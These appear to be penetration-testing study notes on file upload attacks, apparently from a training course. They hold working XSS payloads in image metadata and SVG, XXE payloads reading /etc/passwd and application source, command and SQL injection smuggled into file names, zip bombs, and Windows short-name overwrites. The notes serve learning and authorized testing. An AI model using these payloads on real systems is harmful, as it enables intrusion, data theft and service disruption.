 ### XSS
Many file types may allow us to introduce a `Stored XSS` vulnerability to the web application by uploading maliciously crafted versions of them.

1. Upload an HTML file with JavaScript code which gets rendered when visited
2. Upload an image that has a XSS payload in the metadata as a comment. Useful for when a file/image metadata like the `author` is shown on the page
 ```shell
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' Pwn3d.jpg
```
3. Embed XSS into a SVG images XML data.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
Similar attacks can be carried to lead to XXE exploitation. With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.

> [!NOTE] Note
> This can be very useful for reading source code to find more hidden directories, embedded SQL passwords, API keys and more 


Read the contents of `/etc/passwd` using a malicious SVG image
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
Read source code of web application
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
### DoS
1. Upload a zip bomb
2. Upload a huge image (`Pixel Flood`)
3. Upload to /etc/passwd using directory traversal
### Injections in File Names
Command injection into file names:
If we name a file `file$(whoami).jpg` or ``file`whoami`.jpg`` or `file.jpg||whoami`, and then the web application attempts to move the uploaded file with an OS command (e.g. `mv file /tmp`), then our file name would inject the `whoami` command

The same can be done with XSS by naming the file `<script>alert(window.origin);</script>` or even SQLi by naming the file `file';select+sleep(5);--.jpg`
### Upload Directory Disclosure
n some file upload forms, like a feedback form or a submission form, we may not have access to the link of our uploaded file and may not know the uploads directory.We can fuzz for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE) to find where the uploaded files are by reading the web applications source code.

We can also try forcing error messages to reveal information. We can use to cause such errors is uploading a file with a name that already exists or sending two identical requests simultaneously. This may lead the web server to show an error that it could not write the file, which may disclose the uploads directory. We may also try uploading a file with an overly long name (e.g., 5,000 characters). If the web application does not handle this correctly, it may also error out and disclose the upload directory
### Windows-specific Attacks
Special characters  (`|`, `<`,`>`, or `?`) can be used to create errors and disclose the upload directory.

Older versions of Windows were limited to a short length for file names, so they used a Tilde character (`~`) to complete the file name. We can use this to overwrite existing files or refer to files that don't exist https://en.wikipedia.org/wiki/8.3_filename

For example, to refer to a file called (`hackthebox.txt`) we can use (`HAC~1.TXT`) or (`HAC~2.TXT`), where the digit represents the order of the matching files that start with (`HAC`). As Windows still supports this convention, we can write a file called (e.g. `WEB~.CONF`) to overwrite the `web.conf` file. Similarly, we may write a file that replaces sensitive system files.
